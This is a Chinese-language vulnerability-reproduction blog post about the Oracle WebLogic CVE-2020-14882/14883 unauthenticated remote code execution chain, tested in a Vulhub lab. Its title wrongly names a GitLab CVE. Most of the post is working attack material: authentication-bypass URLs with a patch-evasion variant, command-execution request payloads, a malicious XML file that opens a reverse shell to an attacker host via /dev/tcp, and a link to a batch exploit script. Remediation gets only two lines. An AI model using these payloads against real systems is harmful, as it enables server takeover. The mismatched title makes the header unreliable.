 ```yaml
---
title: GitLab 未授权RCE(CVE-2021-22205)  --花无名   
layout:mypost
categories: [漏洞复现]
---
```


## 漏洞说明

​	2020年10月21日，Oracle官方发布多个高危漏洞公告。其中组合利用CVE-2020-14882/ CVE-2020-14883可使未经授权的攻击者绕过WebLogic后台登录等限制，最终远程执行代码接管WebLogic服务器，利用难度极低，风险极大。

## 影响版本

​	10.3.6.0.0、12.1.3.0.0、12.2.1.3.0、12.2.1.4.0、14.1.1.0.0

## 复现

​	使用Vunhub靶场搭建，Weblogic 12.2.1.3.0版本

![image-20211110143835747](image-20211110143835747.png)

### 未授权访问-CVE-2020-14882

通过访问以下url可进行绕过验证，访问控制台

```
http://IP:7001/console/images/%252E%252E%252Fconsole.portal
http://IP:7001/console/css/%252E%252E%252Fconsole.portal
```

通过对路径的二次url编辑进行访问绕过，官方发布相对于的补丁可通过大小写的转化进行绕过补丁

```
/console/css/%252e%252e%252fconsole.portal //大写换成小写可绕过补丁
```

成功到控制台后，因权限比正常登录账户会小很多，缺少部署等功能。无法通过部署项目的方式进行RCE

![image-20211110144431426](image-20211110144431426.png)

### 远程RCE-CVE-2020-14883

通过配合未授权访问打组合拳，主要通过构造恶意请求的请求包，远程下载执行VPS内的恶意XML文件达到反弹shell 

#### 1.命令执行

直接可构造请求包进行命令执行，判断是否存在。拼接好get请求后，在后面加入需要执行的系统命令

Poc Windows

```
http://x.x.x.x:7001/console/images/%252E%252E%252Fconsole.portal?_nfpb=true&_pageLabel=HomePage1&handle=com.tangosol.coherence.mvel2.sh.ShellSession(%22java.lang.Runtime.getRuntime().exec(%27cmd%27);%22)
```

Poc Linux

```
GET /console/css/%252e%252e%2fconsolejndi.portal?test_handle=com.tangosol.coherence.mvel2.sh.ShellSession(%27weblogic.work.ExecuteThread%20currentThread%20=%20(weblogic.work.ExecuteThread)Thread.currentThread();%20weblogic.work.WorkAdapter%20adapter%20=%20currentThread.getCurrentWork();%20java.lang.reflect.Field%20field%20=%20adapter.getClass().getDeclaredField(%22connectionHandler%22);field.setAccessible(true);Object%20obj%20=%20field.get(adapter);weblogic.servlet.internal.ServletRequestImpl%20req%20=%20(weblogic.servlet.internal.ServletRequestImpl)obj.getClass().getMethod(%22getServletRequest%22).invoke(obj);%20String%20cmd%20=%20req.getHeader(%22cmd%22);String[]%20cmds%20=%20System.getProperty(%22os.name%22).toLowerCase().contains(%22window%22)%20?%20new%20String[]{%22cmd.exe%22,%20%22/c%22,%20cmd}%20:%20new%20String[]{%22/bin/sh%22,%20%22-c%22,%20cmd};if(cmd%20!=%20null%20){%20String%20result%20=%20new%20java.util.Scanner(new%20java.lang.ProcessBuilder(cmds).start().getInputStream()).useDelimiter(%22\\A%22).next();%20weblogic.servlet.internal.ServletResponseImpl%20res%20=%20(weblogic.servlet.internal.ServletResponseImpl)req.getClass().getMethod(%22getResponse%22).invoke(req);res.getServletOutputStream().writeStream(new%20weblogic.xml.util.StringInputStream(result));res.getServletOutputStream().flush();}%20currentThread.interrupt();%27) HTTP/1.1
Host: x.x.x.x:7001
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:75.0) Gecko/20100101 Firefox/75.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: ADMINCONSOLESESSION=z5ccPjdcv2OjbyH6CNmOHpulsxcMyPfnGM434PTom5QWuvadcN-u!-1073393521
Upgrade-Insecure-Requests: 1
cmd: whoami && pwd
```

#### ![image-20211110150339850](image-20211110150339850.png)2.恶意XML RCE

恶意XML文档准备，开启NC监听

XML写入需执行系统的命令

将准备的文档放置在目标机器可达的VPS内

```
 <beans xmlns="http://www.springframework.org/schema/beans" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
 <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
    <constructor-arg>
      <list>
        <value>/bin/bash</value>
        <value>-c</value>
        <value><![CDATA[bash -i >& /dev/tcp/x.x.x.x/7777  0>&1]]></value>
      </list>
    </constructor-arg>
  </bean>
</beans>
```

2.构造请求进行访问执行

```
/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext("http://ip/2.xml"）
```

![image-20211110145601643](image-20211110145601643.png)



再次查看监听机可获取权限内容

#### 3.脚本利用 RCE

GGyao写的利用脚本：https://github.com/backlion/CVE-2020-14882_ALL

脚本支持命令回显检测，批量命令回显检测，外置xml无命令检测。根据攻击需求进行使用

![image-20211110150426994](image-20211110150426994.png)

# 修复

根据业务升级升级升级

关闭后台/console/console.portal的访问权限

